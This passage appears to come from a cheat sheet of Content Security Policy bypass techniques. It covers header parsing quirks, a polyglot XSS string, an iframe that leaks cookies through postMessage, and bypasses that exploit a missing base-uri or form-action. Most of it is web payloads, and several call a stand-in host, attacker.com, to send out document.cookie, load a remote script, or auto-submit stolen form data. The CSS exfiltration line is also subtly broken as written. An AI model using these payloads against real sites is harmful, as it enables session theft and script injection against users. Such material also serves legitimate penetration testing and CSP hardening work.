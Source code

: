 #### Edge Legacy Treatment of 'unsafe-hashes'

Edge had inconsistencies in how it implemented 'unsafe-hashes', allowing bypasses in some cases.

#### Browser Parsing Inconsistencies

```
Content-Security-Policy: script-src 'self'; object-src 'none';, script-src 'unsafe-inline'
```
Some browsers would parse the second script-src directive, allowing inline scripts.

### Special Techniques

#### Data Exfiltration via CSS

```html
<!-- When style-src includes 'unsafe-inline' -->
<style>
@import url(https://attacker.com/?data='+document.cookie);
</style>
```

#### iframes for Sandbox Escape

```html
<!-- When frame-src is not restricted -->
<iframe src="data:text/html,<script>top.postMessage(document.cookie, '*')</script>"></iframe>
```

#### Polyglot XSS

```
javascript:"/*'/*`/*--></noscript></title></textarea></style></template></noembed></script><html \" onmouseover=/*&lt;svg/*/onload=alert()//>
```

## Advanced CSP Bypass Examples

### Base-URI Bypass

```html
<!-- When base-uri is missing -->
<base href="https://attacker.com/">
<script src="/malicious.js"></script> <!-- Loads from attacker.com -->
```

### Form-Action Bypass

```html
<!-- When form-action is missing -->
<form action="https://attacker.com/log">
  <input name="stolen" value="data">
  <input type="submit" id="submit">
</form>
<script>document.getElementById("submit").click()</script>
```
